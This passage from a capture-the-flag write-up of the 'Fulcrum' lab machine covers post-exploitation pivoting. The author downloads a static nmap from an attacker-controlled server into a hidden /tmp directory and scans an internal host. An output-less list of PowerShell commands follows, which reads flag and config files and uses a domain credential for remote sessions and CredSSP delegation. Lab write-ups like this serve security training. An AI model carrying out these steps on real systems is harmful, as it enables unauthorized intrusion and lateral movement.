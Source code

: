To reduce our scope a bit, we can check the arp table, and see which machines that this machine has talked to recently.

```
www-data@Fulcrum:~$ arp -a

? (10.10.10.2) at 00:50:56:aa:9c:8d [ether] on ens32
? (192.168.122.228) at 52:54:00:74:9d:17 [ether] on virbr0
```

We see that there is a live host at `192.168.122.228`. Our next step was to discover what ports were open on this machine. There are many ways to scan a machine when you are on someone's internal network, but I prefer to drop a statically compiled version of nmap (and associated modules) if I have the ability to do so. It saves time, and I want to feel at home when I'm on someone's box. 

```
www-data@Fulcrum:/tmp/.scan$ wget http://10.10.15.74:6666/nmap.tar.gz
--2018-06-22 03:30:11--  http://10.10.15.74:6666/nmap.tar.gz
Connecting to 10.10.15.74:6666... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4875842 (4.6M) [application/gzip]
Saving to: 'nmap.tar.gz'

nmap.tar.gz         100%[===================>]   4.65M  1.04MB/s    in 6.8s

2018-06-22 03:30:19 (705 KB/s) - 'nmap.tar.gz' saved [4875842/4875842]

www-data@Fulcrum:/tmp/.scan$ clear
TERM environment variable not set.
www-data@Fulcrum:/tmp/.scan$ ls
nmap.tar.gz
www-data@Fulcrum:/tmp/.scan$ tar -xvf nmap.tar.gz
...[snip]...
```

_Downloading our statically compiled nmap_
```
www-data@Fulcrum:/tmp/.scan$ wget http://10.10.15.74:6666/nmapstatic
--2018-06-22 03:36:28--  http://10.10.15.74:6666/nmapstatic
Connecting to 10.10.15.74:6666... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5944464 (5.7M) [application/octet-stream]
Saving to: 'nmapstatic'

nmapstatic          100%[===================>]   5.67M   576KB/s    in 11s

2018-06-22 03:36:40 (506 KB/s) - 'nmapstatic' saved [5944464/5944464]
```

To scanning with our statically compiled nmap, we use the `--datadir` option, with this we can portscan just like if we were doing it from our own box easily.

```
www-data@Fulcrum:/tmp/.scan$ ./nmapstatic --datadir nmap/ -p- 192.168.122.228

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2018-06-22 03:39 BST
Nmap scan report for 192.168.122.228
Host is up (0.0022s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
5986/tcp open  wsmans
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 165.06 seconds
```


[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserName
[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserDomain
[192.168.30.130]: PS C:\Users\WebUser\Documents> dir
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\user.txt
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\CheckFileServer.ps1
[192.168.30.130]: PS C:\inetpub\wwwroot> dir
[192.168.30.130]: PS C:\inetpub\wwwroot> type web.config
[192.168.30.130]: PS C:\inetpub\wwwroot>
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enter-PSSession -Computername file.fulcrum.local -Credential fulcrum.local\btables
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enable-WSManCredSSP –Role Client –DelegateComputer spoke